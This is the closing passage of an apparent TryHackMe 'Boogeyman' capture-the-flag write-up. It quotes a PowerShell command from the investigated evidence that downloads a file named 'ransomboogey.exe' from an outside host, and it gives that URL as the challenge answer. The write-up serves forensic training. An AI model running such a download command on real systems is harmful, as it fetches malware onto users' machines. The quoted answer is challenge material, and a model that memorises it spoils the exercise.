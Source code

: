 ```powershell
"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -c "iwr http://ff.sillytechninja.io/ransomboogey.exe -outfile ransomboogey.exe"
```

We can see the link we are looking for.

**Answer: http://ff.sillytechninja.io/ransomboogey.exe**

---

A fairly challenging exercise! Using concise filter really goes a long way here.

Hope you enjoyed following along the **Boogeyman** challenges on **TryHackMe**!